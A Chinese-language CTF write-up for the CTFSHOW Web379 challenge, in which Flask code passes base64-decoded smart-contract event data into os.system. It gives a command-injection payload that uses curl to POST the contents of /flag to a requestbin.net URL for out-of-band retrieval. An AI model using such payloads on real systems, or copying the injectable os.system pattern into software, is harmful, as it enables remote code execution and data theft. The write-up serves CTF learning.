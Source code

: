 # [WP]CTFSHOW-Web379

首先题目给出了漏洞利用代码

合约如下：

```
pragma solidity ^0.4.24;

contract Ctfshow {
    event victory(string b64email,string slogan); 
    
    function getFlag(string b64email) public {
        emit victory(b64email, "tql");
    }
}
```

Flask代码如下

```
@app.route('/flag')
def app_flag():
	event()
	return render_template_string('flush done')

def event():
	w3 = Web3(Web3.HTTPProvider(rpc))
	flag_logs = w3.eth.getLogs({
			"address":contract_address,
			"topic0":contract_topic0
		})
	if flag_logs is not []:
		for flag_log in flag_logs:
			data = flag_log["data"][2:]
			length = int(data[64*2:64*3].replace('00', ''),16)
			data = data[64*3:][:length*2]
			user = binascii.unhexlify(data).decode('utf-8')
			try:
				username = base64.b64decode(user).decode('utf-8')
				os.system('echo '+username+' >>/app/user.txt')
			except:
				errmsg = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())+":decode or send to b64 - {} 2 {} fail".format(user,username)
				print(errmsg)
```

简单的代码审计便是我们需要通过控制这里的参数`user`来实现RCE，经过我的测试这个题目无回显，所以我们采用带外输出，下面给出未编码payload：

```
1;curl -X POST -d "flag=`cat /flag`" http://requestbin.net/r/1j4264j1;echo aa
```

step1:

![web379-1](./pic/web379-1.png)

step2:

![web379-1](./pic/web379-2.png)

step3:

有个神奇的点就是在成功后，需要多访问`url/flag`十几次(原理是RPC远程调用，是和区块链的原理有关，这我就不懂了)，然后去requestbin收取flag就好啦





# 参考文章

[以太坊智能合约安全入门了解一下](http://rickgray.me/2018/05/17/ethereum-smart-contracts-vulnerabilities-review/)

[智能合约攻击面及ctf出题指南](https://doublemice.github.io/%E6%99%BA%E8%83%BD%E5%90%88%E7%BA%A6%E6%94%BB%E5%87%BB%E9%9D%A2%E5%8F%8Actf%E5%87%BA%E9%A2%98%E6%8C%87%E5%8D%97/)

[CTF中智能合约部署交互基础](https://blog.csdn.net/qq_41429081/article/details/104321258)

[一个区块链的在线IDE](http://remix.ethereum.org/)
